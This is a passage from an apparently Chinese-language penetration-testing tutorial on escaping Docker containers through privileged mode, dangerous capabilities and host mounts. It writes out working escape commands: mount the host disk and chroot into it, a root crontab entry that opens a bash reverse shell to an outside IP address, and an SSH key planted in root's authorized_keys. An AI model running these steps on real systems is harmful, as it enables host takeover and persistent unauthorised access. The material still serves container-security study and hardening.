 Github 上的 exp：[https://github.com/Tycx2ry/docker_api_vul](https://github.com/Tycx2ry/docker_api_vul)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201122222340-513328c0-2cce-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201122222340-513328c0-2cce-1.jpg)

#### Docker 高危启动参数 -- privileged 特权模式启动容器

> 当操作者执行 docker run --privileged 时，Docker 将允许容器访问宿主机上的所有设备，同时修改 AppArmor 或 SELinux 的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。

特权模式启动一个 Ubuntu 容器：  
`sudo docker run -itd --privileged ubuntu:latest /bin/bash`  
进入容器：  
使用`fdisk` 命令查看磁盘文件：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201122222432-70a8739a-2cce-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201122222432-70a8739a-2cce-1.jpg)

> 在特权模式下，逃逸的方式很多，比如：直接在容器内部挂载宿主机磁盘，然后切换根目录。

新建一个目录：`mkdir /test`  
挂载磁盘到新建目录：`mount /dev/vda1 /test`  
切换根目录：`chroot /test`  
到这里已经成功逃逸了，然后就是常规的反弹 shell 和 写 SSH 了 (和 redis 未授权差不多）。  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201122222657-c6c4aa64-2cce-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201122222657-c6c4aa64-2cce-1.jpg)

写计划任务，反弹宿主机 Shell。  
`echo '* * * * * /bin/bash -i >& /dev/tcp/39.106.51.35/1234 0>&1' >> /test/var/spool/cron/crontabs/root`

如果要写 SSH 的话，需要挂载宿主机的 root 目录到容器。  
docker run -itd -v /root:/root ubuntu:18.04 /bin/bash  
mkdir /root/.ssh  
cat id_rsa.pub >> /root/.ssh/authorized_keys  
然后 ssh 私钥登录。

其他参数：  
Docker 通过 Linux namespace 实现 6 项资源隔离，包括主机名、用户权限、文件系统、网络、进程号、进程间通讯。但部分启动参数授予容器权限较大的权限，从而打破了资源隔离的界限。

```
--cap-add=SYS_ADMIN  启动时，允许执行mount特权操作，需获得资源挂载进行利用。
    --net=host           启动时，绕过Network Namespace
    --pid=host              启动时，绕过PID Namespace
    --ipc=host              启动时，绕过IPC Namespace

```

### 危险挂载导致 Docker 逃逸

挂载目录（-v /:/soft）

```
docker run -itd -v /dir:/dir ubuntu:18.04 /bin/bash

```
